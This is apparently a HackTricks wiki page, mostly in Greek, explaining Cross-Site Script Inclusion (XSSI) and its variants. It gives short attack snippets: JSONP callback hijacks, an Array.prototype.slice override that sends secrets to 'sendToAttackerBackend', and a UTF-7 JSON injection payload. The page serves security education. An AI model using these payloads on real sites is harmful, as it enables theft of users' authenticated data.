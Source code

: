 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** είναι μια ευπάθεια που προκύπτει από τη φύση της ετικέτας `script` στο HTML. Σε αντίθεση με τους περισσότερους πόρους, οι οποίοι υπόκεινται στην **Same-Origin Policy (SOP)**, τα σενάρια μπορούν να συμπεριληφθούν από διαφορετικά domains. Αυτή η συμπεριφορά προορίζεται να διευκολύνει τη χρήση βιβλιοθηκών και άλλων πόρων που φιλοξενούνται σε διαφορετικούς διακομιστές, αλλά εισάγει επίσης έναν πιθανό κίνδυνο ασφάλειας.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Τα σενάρια εξαιρούνται από την **Same-Origin Policy**, επιτρέποντάς τους να συμπεριλαμβάνονται σε διαφορετικά domains.
- **Data Exposure**: Ένας επιτιθέμενος μπορεί να εκμεταλλευτεί αυτή τη συμπεριφορά για να διαβάσει δεδομένα που φορτώνονται μέσω της ετικέτας `script`.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** είναι ιδιαίτερα σχετικό για δυναμικό JavaScript ή **JSON with Padding (JSONP)**. Αυτές οι τεχνολογίες συχνά χρησιμοποιούν πληροφορίες "ambient-authority" (όπως cookies) για την αυθεντικοποίηση. Όταν γίνεται αίτημα σενάριου σε διαφορετικό host, αυτά τα διαπιστευτήρια (π.χ. cookies) περιλαμβάνονται αυτόματα στο αίτημα.
- **Authentication Token Leakage**: Εάν ένας επιτιθέμενος μπορεί να παραπλανήσει τον περιηγητή ενός χρήστη να ζητήσει ένα σενάριο από έναν διακομιστή που ελέγχει, μπορεί να έχει πρόσβαση σε ευαίσθητες πληροφορίες που περιέχονται σε αυτά τα αιτήματα.

### Types

1. **Static JavaScript** - Αυτό αντιπροσωπεύει τη συμβατική μορφή του XSSI.
2. **Static JavaScript with Authentication** - Αυτός ο τύπος είναι ξεχωριστός επειδή απαιτεί αυθεντικοποίηση για πρόσβαση.
3. **Dynamic JavaScript** - Περιλαμβάνει JavaScript που δημιουργεί δυναμικά περιεχόμενο.
4. **Non-JavaScript** - Αναφέρεται σε ευπάθειες που δεν περιλαμβάνουν άμεσα JavaScript.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.


### Regular XSSI
Σε αυτή την προσέγγιση, ιδιωτικές πληροφορίες είναι ενσωματωμένες μέσα σε ένα παγκοσμίως προσβάσιμο αρχείο JavaScript. Οι επιτιθέμενοι μπορούν να εντοπίσουν αυτά τα αρχεία χρησιμοποιώντας μεθόδους όπως η ανάγνωση αρχείων, οι αναζητήσεις λέξεων-κλειδιών ή οι κανονικές εκφράσεις. Μόλις εντοπιστούν, το σενάριο που περιέχει ιδιωτικές πληροφορίες μπορεί να συμπεριληφθεί σε κακόβουλο περιεχόμενο, επιτρέποντας μη εξουσιοδοτημένη πρόσβαση σε ευαίσθητα δεδομένα. Ένα παράδειγμα τεχνικής εκμετάλλευσης φαίνεται παρακάτω:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI
Αυτοί οι τύποι επιθέσεων XSSI περιλαμβάνουν εμπιστευτικές πληροφορίες που προστίθενται δυναμικά στο σενάριο ως απάντηση σε αίτημα χρήστη. Η ανίχνευση μπορεί να πραγματοποιηθεί στέλνοντας αιτήματα με και χωρίς cookies και συγκρίνοντας τις απαντήσεις. Εάν οι πληροφορίες διαφέρουν, αυτό μπορεί να υποδηλώνει την παρουσία εμπιστευτικών πληροφοριών. Αυτή η διαδικασία μπορεί να αυτοματοποιηθεί χρησιμοποιώντας εργαλεία όπως το [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp extension.

Εάν τα εμπιστευτικά δεδομένα αποθηκεύονται σε μια παγκόσμια μεταβλητή, μπορούν να εκμεταλλευτούν χρησιμοποιώντας παρόμοιες μεθόδους με αυτές που χρησιμοποιούνται στο Regular XSSI. Ωστόσο, εάν τα εμπιστευτικά δεδομένα περιλαμβάνονται σε μια απάντηση JSONP, οι επιτιθέμενοι μπορούν να καταλάβουν τη συνάρτηση callback για να ανακτήσουν τις πληροφορίες. Αυτό μπορεί να γίνει είτε με την παραποίηση παγκόσμιων αντικειμένων είτε με την εγκατάσταση μιας συνάρτησης που θα εκτελείται από την απάντηση JSONP, όπως φαίνεται παρακάτω:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Για μεταβλητές που δεν βρίσκονται στο παγκόσμιο namespace, η *τροποποίηση πρωτοτύπου* μπορεί μερικές φορές να εκμεταλλευτεί. Αυτή η τεχνική εκμεταλλεύεται το σχεδιασμό της JavaScript, όπου η ερμηνεία του κώδικα περιλαμβάνει την περιήγηση στην αλυσίδα πρωτοτύπων για να εντοπιστεί η καλούμενη ιδιότητα. Με την αντικατάσταση ορισμένων συναρτήσεων, όπως το `slice` του `Array`, οι επιτιθέμενοι μπορούν να αποκτήσουν πρόσβαση και να διαρρεύσουν μη παγκόσμιες μεταβλητές:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Περισσότερες λεπτομέρειες σχετικά με τα επιθετικά διανύσματα μπορούν να βρεθούν στο έργο του Ερευνητή Ασφαλείας [Sebastian Lekies](https://twitter.com/slekies), ο οποίος διατηρεί μια λίστα με [διανύσματα](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
Η έρευνα του Takeshi Terada εισάγει μια άλλη μορφή XSSI, όπου τα αρχεία Non-Script, όπως το CSV, διαρρέουν διασυνοριακά περιλαμβάνοντας τα ως πηγές σε μια ετικέτα `script`. Ιστορικές περιπτώσεις XSSI, όπως η επίθεση του Jeremiah Grossman το 2006 για την ανάγνωση ενός πλήρους βιβλίου διευθύνσεων Google και η διαρροή δεδομένων JSON του Joe Walker το 2007, αναδεικνύουν τη σοβαρότητα αυτών των απειλών. Επιπλέον, ο Gareth Heyes περιγράφει μια παραλλαγή επίθεσης που περιλαμβάνει κωδικοποιημένα σε UTF-7 JSON για να ξεφύγει από τη μορφή JSON και να εκτελέσει σενάρια, αποτελεσματική σε ορισμένους περιηγητές:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
